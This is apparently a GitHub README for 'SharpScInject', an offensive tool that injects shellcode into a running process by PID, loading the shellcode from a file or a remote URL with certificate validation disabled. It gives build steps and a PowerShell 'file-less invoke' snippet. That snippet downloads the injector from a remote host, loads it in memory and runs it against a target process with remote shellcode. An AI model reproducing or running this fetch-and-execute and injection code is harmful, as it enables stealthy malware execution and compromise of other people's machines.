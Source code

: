 # Sharp Shell Code Inject
Inject the shellcode from local file or remote.
The https certificate for the request is ignored.
(No need high priv!)

## Build
```
sudo apt install -y mono-complete
./build.sh
```

## Usage
```
SharpScInject.exe <PID> <Shell Code PATH / URL>
```


File-less invoke
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} ;
$data = (New-Object System.Net.WebClient).DownloadData('https://192.168.xx.xx/file/ProcInject.exe')
# $data=[System.IO.File]::ReadAllBytes('C:\Windows\Tasks\ProcInject.exe')

$argument = "5278 https://192.168.xx.xx/file/my_shellcode.bin"

$assem = [System.Reflection.Assembly]::Load($data)
$method = $assem.Entrypoint
$argu= New-Object -TypeName System.Collections.ArrayList
$strings = $argument.Split(" ")
$argu.Add($strings)
$method.Invoke($null, $argu.ToArray())
```
